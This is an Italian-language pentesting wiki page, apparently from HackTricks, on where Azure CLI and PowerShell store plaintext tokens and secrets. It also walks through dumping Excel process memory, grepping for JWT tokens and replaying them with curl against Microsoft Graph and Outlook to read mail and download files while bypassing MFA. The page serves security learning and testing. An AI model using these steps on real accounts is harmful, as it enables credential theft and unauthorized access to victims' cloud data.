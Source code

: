 # Az - Credenziali Locali del Cloud

{{#include ../../../banners/hacktricks-training.md}}

## Archiviazione Locale dei Token e Considerazioni sulla Sicurezza

### Azure CLI (Interfaccia a Riga di Comando)

I token e i dati sensibili sono archiviati localmente da Azure CLI, sollevando preoccupazioni di sicurezza:

1. **Token di Accesso**: Archiviati in testo semplice all'interno di `accessTokens.json` situato in `C:\Users\<username>\.Azure`.
2. **Informazioni sull'Abbonamento**: `azureProfile.json`, nella stessa directory, contiene i dettagli dell'abbonamento.
3. **File di Log**: La cartella `ErrorRecords` all'interno di `.azure` potrebbe contenere log con credenziali esposte, come:
- Comandi eseguiti con credenziali incorporate.
- URL accessibili utilizzando token, che potrebbero rivelare informazioni sensibili.

### Azure PowerShell

Azure PowerShell archivia anche token e dati sensibili, che possono essere accessibili localmente:

1. **Token di Accesso**: `TokenCache.dat`, situato in `C:\Users\<username>\.Azure`, archivia i token di accesso in testo semplice.
2. **Segreti del Principale di Servizio**: Questi sono archiviati non crittografati in `AzureRmContext.json`.
3. **Funzione di Salvataggio del Token**: Gli utenti hanno la possibilità di persistere i token utilizzando il comando `Save-AzContext`, che dovrebbe essere usato con cautela per prevenire accessi non autorizzati.

### Strumenti Automatici per Trovarli

- [**Winpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe)
- [**Get-AzurePasswords.ps1**](https://github.com/NetSPI/MicroBurst/blob/master/AzureRM/Get-AzurePasswords.ps1)

## Token in Memoria

Come spiegato in [**questo video**](https://www.youtube.com/watch?v=OHKZkXC4Duw), alcuni software Microsoft sincronizzati con il cloud (Excel, Teams...) potrebbero **archiviare token di accesso in chiaro nella memoria**. Quindi, semplicemente **dumpando** la **memoria** del processo e **greppando per token JWT** potrebbe concederti accesso a diverse risorse della vittima nel cloud bypassando MFA.

Passaggi:

1. Dumpa i processi di excel sincronizzati con l'utente EntraID con il tuo strumento preferito.
2. Esegui: `string excel.dmp | grep 'eyJ0'` e trova diversi token nell'output.
3. Trova i token che ti interessano di più e esegui strumenti su di essi:
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
**Nota che questi tipi di token di accesso possono essere trovati anche all'interno di altri processi.**

{{#include ../../../banners/hacktricks-training.md}}
